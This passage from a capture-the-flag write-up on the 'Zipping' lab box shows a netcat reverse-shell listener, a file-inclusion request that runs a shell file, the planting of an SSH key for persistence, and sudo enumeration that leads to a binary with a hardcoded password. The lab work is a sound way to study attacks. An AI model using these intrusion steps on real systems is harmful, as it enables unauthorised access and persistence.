 I started a netcat listener and accessed the shell file.

```http
GET /shop/index.php?page=/dev/shm/shell HTTP/1.1
```

I was in.

```bash
$ nc -klvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.44] from (UNKNOWN) [10.129.92.94] 39650
bash: cannot set terminal process group (1112): Inappropriate ioctl for device
bash: no job control in this shell
rektsu@zipping:/var/www/html/shop$
```


## Getting root

Once connected to the server, I copied my SSH public key and reconnect with SSH.

```bash
rektsu@zipping:/home/rektsu/.ssh$ echo ssh-rsa AAAAB3... > authorized_keys
<2m8Es= > authorized_keys

rektsu@zipping:/home/rektsu/.ssh$ chmod 600 authorized_keys
chmod 600 authorized_keys
```

I checked if I could run anything with `sudo`.

```bash
rektsu@zipping:~$ sudo -l
Matching Defaults entries for rektsu on zipping:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User rektsu may run the following commands on zipping:
    (ALL) NOPASSWD: /usr/bin/stock

rektsu@zipping:~$ file /usr/bin/stock
/usr/bin/stock: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=aa34d8030176fe286f8011c9d4470714d188ab42, for GNU/Linux 3.2.0, not stripped

rektsu@zipping:~$ sudo /usr/bin/stock
Enter the password: fdssjk
Invalid password, please try again.
```

I was able to run a binary. I tried it, it needed a password. I downloaded the file to my machine and opened it with Ghidra. I renamed a few variables to make it more readable. The `checkAuth` function had the password in clear.

![Check Auth Function](/assets/images/2024/01/Zipping/checkAuth.png "Check Auth Function")
